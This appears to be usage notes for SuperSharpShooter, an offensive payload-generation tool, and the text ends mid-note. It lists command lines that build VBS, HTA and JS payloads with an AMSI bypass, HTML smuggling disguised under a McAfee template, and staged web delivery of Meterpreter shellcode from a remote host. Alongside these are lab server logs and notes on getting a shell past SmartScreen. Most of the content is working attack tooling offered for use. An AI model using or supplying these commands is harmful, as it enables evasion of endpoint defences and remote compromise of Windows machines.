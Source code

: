 	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test --amsi amsienable

### Core with AMSI Bypass and HTML Smuggling
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable --smuggle --template mcafee

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test --amsi amsienable --smuggle --template mcafee

Technique notes:

Test host:  Windows 10, no internet

Initial load of smuggling page:

192.168.1.86 - - [19/Jan/2022:23:37:54 -0800] "GET /test2.html HTTP/1.1" 200 57832 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"


After clicking/running the smuggled payload directly from the browser (roughly 30 seconds later):

192.168.1.86 - - [19/Jan/2022:23:21:12 -0800] "-" 408 0 "-" "-"


After waiting between 3 mins and 10 mins based on testing:

"SmartScreen can't be reached.  Run anyways?".  After clicking yes, the payload is downloaded, and a shell is returned


... which is strange, because if you try to run the smuggled payload that's downloaded directly from the Downloads folder (outside of the browser), a shell is returned in a very reasonable amount of time.  Suspecting isolated SmartScreen filter as adding a massive latency.


### Staged with AMSI Bypass, web delivery, HTML Smuggling of the stager
    ./SuperSharpShooter.py --dotnetver 4 --shellcode --payload js --output test --amsi amsienable --smuggle --template mcafee --delivery web --web http://192.168.1.99/test.pay --scfile /var/www/html/met64.sharp

Technique notes:

Test host Windows 10, no internet

The initial load of the .html:

192.168.1.86 - - [19/Jan/2022:23:20:20 -0800] "GET /test.html HTTP/1.1" 200 61396 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36

^^ 200 status code '200 61396 "-"'


After about 30 seconds after clicking the .js file:
